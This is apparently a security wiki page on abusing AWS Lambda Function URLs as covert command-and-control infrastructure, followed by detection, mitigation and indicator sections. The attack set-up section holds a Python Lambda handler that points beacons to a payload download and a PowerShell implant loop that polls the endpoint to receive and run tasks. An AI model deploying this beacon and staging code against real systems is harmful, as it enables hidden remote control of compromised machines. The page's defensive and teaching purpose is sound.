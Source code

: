 # Covert C2 Over AWS Lambda Function URLs

{{#include ../banners/hacktricks-training.md}}

## Overview
AWS Lambda **Function URLs** (introduced in 2022) let you expose an individual Lambda function through a direct HTTPS endpoint such as:
```
https://<function-id>.lambda-url.<region>.on.aws
```
Because traffic to *on.aws* domains is common in modern environments, adversaries can abuse the feature to hide Command-and-Control (C2) traffic in plain sight.  Unlike traditional cloud front-door techniques (CloudFront, API Gateway, etc.) the attacker does **not** need to maintain any infrastructure: AWS handles TLS termination, scaling and high availability for them.

In a malicious scenario, every beacon cycle performs a simple **GET** request to the Function URL and receives a JSON task list in the HTTP body.  Outbound traffic therefore looks like legitimate serverless telemetry and is very difficult to block without breaking business functionality.

### Attacker advantages
* No dedicated VPS or static IP – the entire C2 lives inside the attacker’s AWS account (or a hijacked one).
* Highly reputable domain (`*.on.aws`) and AWS-signed TLS certificate.
* Automatic scaling and 99.95 % availability.
* Pay-as-you-go pricing makes the infrastructure extremely cheap.

## Attack Set-up Step-by-Step
1. Create a new Lambda function (e.g. `python3.9`) in **any** region.
2. Add the malicious logic that parses the beacon request (headers / body) and returns a JSON response with commands:
   ```python
   import json, base64, boto3
   def lambda_handler(event, context):
       beacon = json.loads(event['body'] or '{}')
       # example beacon: {"id":"WIN-ACME", "arch":"x64", "ver":"1.0"}
       if beacon.get('cmd') == 'stage':
           # Return staging payload
           return {"statusCode":200, "body":json.dumps({"download":"https://example.com/payload.bin"})}
       # idle
       return {"statusCode":200, "body":json.dumps({})}
   ```
3. In the **Configuration ➜ Function URL** tab click *Create function URL* and set *Auth type* to **NONE**.
4. From the implant/back-door configure periodic HTTPS requests to the generated endpoint.  Example with PowerShell:
   ```powershell
   $url  = "https://ab123cd456.lambda-url.ap-southeast-1.on.aws"
   while ($true) {
       $resp = Invoke-WebRequest -Uri $url -UseBasicParsing
       $tasks = ($resp.Content | ConvertFrom-Json)
       # Execute tasks …
       Start-Sleep -Seconds 60
   }
   ```
5. Optionally host secondary payloads (tools, dlls, ZIP archives) in S3 presigned URLs or public buckets referenced from the JSON directions.

## Detection & Hunting
1. Inspect egress logs for HTTPS requests to the **`on.aws`** 2-level TLD that contain the substring **`lambda-url`**.
2. Enable **VPC Flow Logs** or a web proxy rule to surface unusual hostnames like `*.lambda-url.<region>.on.aws`.
3. Alert on Lambda Function URLs whose *Auth type* is **NONE** inside the organisation’s AWS accounts – they may be abused by attackers.
4. Cross-check Lambda execution logs (CloudWatch) with IAM CloudTrail events to detect suspicious code updates.

## Mitigation
* Enforce egress filtering policies that only allow requests to approved AWS endpoints.
* Require **IAM/λ token based authentication** for internal Function URLs whenever possible.
* Deploy web proxy signatures that flag unknown `lambda-url` sub-domains.

---
## Quick IOC Cheat-Sheet
| Indicator | Explanation |
|-----------|-------------|
| `*.lambda-url.*.on.aws` | DNS / URL pattern for Lambda Function URLs |
| TLS certificate CN `*.lambda-url.*.on.aws` | AWS-managed certificate seen in TLS JA3 |
| HTTP header `x-amzn-trace-id` | Automatically added by Lambda – can be used to tag beacon traffic |


## References
* [Behind the Clouds – Attackers Targeting Governments in Southeast Asia Implement Novel Covert C2 Communication](https://unit42.paloaltonetworks.com/windows-backdoor-for-novel-c2-communication/)
* [AWS – Announcing AWS Lambda Function URLs](https://aws.amazon.com/blogs/aws/announcing-aws-lambda-function-urls-built-in-https-endpoints-for-single-function-microservices/)
* [Trellix – OneCLIK red-team campaign (first public report of Lambda URL abuse)](https://www.trellix.com/blogs/research/oneclik-a-clickonce-based-red-team-campaign-simulating-apt-tactics-in-energy-infrastructure/)

{{#include ../banners/hacktricks-training.md}}
